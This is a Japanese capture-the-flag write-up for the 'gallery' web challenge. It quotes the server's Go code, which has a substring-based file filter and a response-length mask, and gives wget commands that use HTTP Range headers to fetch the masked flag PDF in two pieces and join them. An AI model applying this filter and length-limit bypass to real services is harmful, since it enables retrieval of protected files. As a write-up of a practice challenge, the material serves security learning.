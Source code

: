 # gallery

`file_extension=hoge`でやると拡張子がhogeのファイルが取得できそう

ソースコードを見ると

```go
func getImageList(fileExtension string) ([]string, error) {
	files, err := os.ReadDir("static")
	if err != nil {
		return nil, err
	}

	res := make([]string, 0, len(files))
	for _, file := range files {
		if !strings.Contains(file.Name(), fileExtension) {
			continue
		}
		res = append(res, file.Name())
	}

	return res, nil
}
```

strings.Containsでクエリの文字が含まれているかどうかを判断しているので実際には拡張子ではなく、ファイル名でも一致していれば取得できることがわかる

```go
fileExtension = strings.ReplaceAll(fileExtension, "flag", "")
```

flagに関するものを取得したいがflagは無効化されてしまうことがわかる

しかし、前述したように一文字でも入っていればファイル一覧が取得できるのでfだけで検索をかけると`flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf`というファイルが確認できる

これについて確認したいが

```go
func (w *MyResponseWriter) Write(data []byte) (int, error) {
	filledVal := []byte("?")

	length := len(data)
	if length > w.lengthLimit {
		w.ResponseWriter.Write(bytes.Repeat(filledVal, length))
		return length, nil
	}

	w.ResponseWriter.Write(data[:length])
	return length, nil
}

func middleware() func(http.Handler) http.Handler {
	return func(h http.Handler) http.Handler {
		return http.HandlerFunc(func(rw http.ResponseWriter, r *http.Request) {
			h.ServeHTTP(&MyResponseWriter{
				ResponseWriter: rw,
				lengthLimit:    10240, // SUPER SECURE THRESHOLD
			}, r)
		})
	}
}
```

10240byteを超えると、ファイルサイズ分の?が返ってくるようになっており、flagを取得できない


以下、チームメイトがsolve

flagのpdfの?の数を数えると16085であることがわかる

そこで、`Range`headerを用いて半分ずつ取得し、結合する


```
$ wget --header='Range: bytes=0-8085' https://gallery.quals.beginners.seccon.jp/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf
$ wget --header='Range: bytes=8086-16085' https://gallery.quals.beginners.seccon.jp/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf
$ cat flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf.1 > flag.pdf
```

flagがpdfに記載してある

